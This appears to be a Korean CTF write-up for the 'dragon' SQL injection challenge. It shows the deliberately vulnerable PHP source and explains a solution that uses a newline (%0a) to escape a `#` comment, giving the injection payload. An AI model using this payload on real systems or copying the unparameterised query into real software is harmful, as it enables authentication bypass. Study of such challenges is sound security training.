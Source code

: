 # dragon

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- 쿼리에서 `id='guest'` 이후부터 주석처리한다.
- `id` 가 admin이면 문제가 해결된다.


## 3. Solution

쿼리에서 사용된 `#`은 한줄주석이다.<br>
그말은 즉, `%0a` 개행을 이용하면 쉽게 해결된다.<br>

변수명 | 값
---|---:
`pw` | `'%0aand pw='1234' or id='admin`
